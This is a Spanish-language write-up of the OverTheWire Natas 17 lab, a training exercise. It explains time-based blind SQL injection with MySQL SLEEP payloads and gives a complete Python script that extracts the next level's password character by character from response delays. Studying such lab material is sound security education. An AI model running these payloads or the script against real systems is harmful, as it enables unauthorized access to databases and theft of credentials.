

# Natas 17 – OverTheWire

En este nivel se nos muestra un formulario con un campo de búsqueda de usuario, similar al de Natas 15, pero ahora:

- No muestra si el usuario existe o no.
- No devuelve mensajes distintos.
- Ni siquiera da errores visibles.

Sin embargo, el servidor sigue ejecutando **consultas SQL internamente**.
La clave está en usar tiempos de respuesta para inferir los datos.

## Analisis

Podemos suponer que el código PHP hace algo como:

```php
$query = "SELECT * FROM users WHERE username='" . $_GET["username"] . "'";
mysql_query($query);
```

Y **no devuelve nada.**
Pero si conseguimos que la consulta tarde más tiempo cuando una condición sea verdadera, podremos detectar patrones midiendo los tiempos de respuesta.

En MySQL, existe una función útil para esto: `SLEEP`

Si logramos inyectar algo como:

```sql
natas18" AND IF(1=1, SLEEP(5), 0) --
```

el servidor tardará 5 segundos en responder si la condición es verdadera.

### Concepto: Time-Based Blind SQL Injection

Cuando una aplicación no muestra resultados (ni mensajes ni errores), podemos usar funciones que retrasan la respuesta si una condición se cumple.
Midiendo ese retraso, podemos deducir si una comparación fue cierta o falsa.

Sabiendo esto, queremos extraer la contraseña de natas18, carácter por carácter.
La tabla users probablemente tiene columnas username y password.

Por tanto, podemos probar algo así:

```sql
natas18" AND IF(SUBSTRING(password,1,1)='a', SLEEP(5), 0) --
```

Si el primer carácter de la contraseña es 'a', el servidor tardará 5 segundos.
Si no lo es, responderá instantáneamente.

Vamos a crear un script en python como en los ejercicios anteriores para automatizar el proceso.

```python
import requests, time
from pwn import *
from string import ascii_letters, digits

chars = ascii_letters + digits
url = "http://natas17.natas.labs.overthewire.org"
auth = ('natas17', '<ContraseñaNatas17>')
found = ""

p1 = log.progress("Fuerza bruta")
p1.status("Iniciando Ataque")

time.sleep(2)

p2= log.progress("Password")

for i in range(1, 33): 
    for c in chars:
        payload = f'natas18" AND IF(BINARY SUBSTRING(password,{i},1)="{c}", SLEEP(3), 0) -- '
        start = time.time()
        r = requests.get(url, auth=auth, params={"username": payload})
        elapsed = time.time() - start
        p1.status(payload)
        if elapsed > 2.5: 
            found += c
            p2.status(found)
            break
print("---Contraseña Vulnerada---")
```

>[!NOTE]
>Esta vez vamos a usar la liberia `pwn` en concreto el modulo `log` dado que este nos deja mostrar por pantalla que es exactamente que va haciendo el programa, es una manera bastante más visual de entender que está haciendo el programa.



## Conclusion

- Las diferencias en tiempo de respuesta pueden filtrar datos sensibles.
- Aun cuando no haya mensajes ni errores, la lógica interna puede revelar información medible.
- La seguridad por silencio no es seguridad real.
